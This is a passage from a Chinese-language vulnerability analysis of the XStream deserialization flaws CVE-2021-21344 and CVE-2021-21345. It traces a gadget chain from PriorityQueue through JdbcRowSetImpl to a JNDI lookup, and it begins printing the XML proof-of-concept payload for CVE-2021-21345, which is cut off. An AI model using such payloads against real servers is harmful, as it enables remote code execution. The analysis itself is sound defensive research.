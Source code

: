 不难看出最外层封装的类是PriorityQueue，PriorityQueue是实现了Serializable接口并且重写了readObject方法的这点从POC中PriorityQueue的标签上也看得出，结合我们之前对XStream的分析 这次我们直接在PriorityQueued的readObject方法中打上断点。

![](https://images.seebug.org/content/images/2021/04/06/1617677140000-6.png-w331s)

研究过java反序列化的同学对PriorityQueue这个类肯定不会陌生，经典的CommonCollections利用链中有几个就用到了PriorityQueue，放一下此刻的调用链。

![](https://images.seebug.org/content/images/2021/04/06/1617677140000-7.png-w331s)

然后我们跟进heapify()方法，

![](https://images.seebug.org/content/images/2021/04/06/1617677140000-8.png-w331s)

经过一些调试来到了PriorityQueue类的siftDownUsingComparator方法中如下图所示。

![](https://images.seebug.org/content/images/2021/04/06/1617677140000-9.png-w331s)

这里调用了PriorityQueue类中存储在comparator属性中的对象的compare方法，这时我们回过头来再去看一下POC

![](https://images.seebug.org/content/images/2021/04/06/1617677140000-10.png-w331s)

我们可以很直观的从XStream序列化的数据中看到PriorityQueue类的comparator属性中存储的是一个`sun.awt.datatransfer.DataTransferer$IndexOrderComparator`类型的对象 也就是说接下来会调用`DataTransferer$IndexOrderComparator`对象的compare方法。

![](https://images.seebug.org/content/images/2021/04/06/1617677141000-11.png-w331s)

剩下的过程就是一系列的嵌套调用，最终会执行到com.sun.rowset.JdbcRowSetImpl的getDatabaseMetaData中，并最终在JdbcRowSetImpl的connect方法中通过JNDI去lookup事先封装在JdbcRowSetImpl的dataSource中的恶意地址

![](https://images.seebug.org/content/images/2021/04/06/1617677141000-12.png-w331s)

![](https://images.seebug.org/content/images/2021/04/06/1617677141000-13.png-w331s)

![](https://images.seebug.org/content/images/2021/04/06/1617677141000-14.png-w331s)

最后贴一下调用栈

![](https://images.seebug.org/content/images/2021/04/06/1617677141000-15.png-w331s)

CVE-2021-21344分析至此完毕。

2\. CVE-2021-21345
------------------

先粘贴一下cve-2021-21345的poc

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
```
